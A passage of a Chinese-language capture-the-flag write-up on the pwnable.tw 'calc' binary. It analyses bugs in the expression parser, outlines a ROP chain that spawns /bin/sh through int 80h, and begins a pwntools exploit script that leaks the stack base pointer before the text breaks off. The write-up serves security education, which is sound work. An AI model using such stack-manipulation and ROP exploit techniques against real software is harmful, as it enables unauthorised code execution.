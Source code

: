 

1. 上图中：方形表示状态，矩形表示执行的操作，箭头上的字符表示状态转移条件；
2. 上图中：`State1` 表示操作符栈顶为空，`State2` 表示操作符栈顶不是 `+-` 号，`State3` 表示操作符栈顶是加减号。很显然，初始状态是 `State1`；
3. 程序的逻辑保证了：任何一个操作符后一个字符不会是操作符，除号的第二个操作符不能是 `"0"`

## 漏洞

### 发现

经过上面的分析，`parse_expr` 这个函数我主要发现了两个漏洞：

1. 程序在排除被除数不为 0 的条件时，用的判断是被除数字符串不等于 `"0"`；对于这个漏洞，我们可以通过输入 `"00"` 等方式让程序产生除零操作。但是并不知道这个漏洞如何利用；
2. 程序在执行 `eval` 时，必须要满足数字栈中存在大于两个的数字，但是以下原因会导致这个条件并不成立：
   1. 输入字符串的第一个字符为操作符；
   2. 某次的输入数字为 0，这个数字则不会被程序压栈；

下面我们尝试利用第二条的第一个漏洞，就可以改变数字栈的高度，从而达到修改任意地址的目的。

### 利用

我们利用的基本思路是：先泄露栈地址，然后注入字符串 `/bin/sh`，最后构造一个这样的栈：

```
stack-top	|ad1	|0xb	|ad2	|0x0	|adstr	|ad3	|0x0	|ad4
```

其中 `ad1`、`ad2`、`ad3`、`ad4` 是三个通过 `ROP` 技术的到的三个地址，它们分别执行：

```assembly
ad1:	pop %eax; ret;
ad2:	pop %ecx; pop %ebx; ret;
ad3:	pop %edx; ret;
ad4:	int 80h;
```

而其中的 `adstr` 则是之前注入的 `/bin/sh` 的地址。构造了如下的 `exp`：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./calc'])
        else:
            self.p = remote("chall.pwnable.tw", 10100)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript="b *get_expr")

    def leak_ebp(self):
        """
        payload: *361
        """
        offset = 0x5a0 / 4 + 1
        self.payload = "*%d\n" % (offset)
        self.p.send(self.payload)

        self.main_ebp = int(self.p.recvline(), 10) & 0xffffffff
        self.calc_ebp = self.main_ebp - 0x20
        self.parse_expr_ebp = self.calc_ebp - 0x5c0
        print("main $ebp:" + hex(self.main_ebp))
```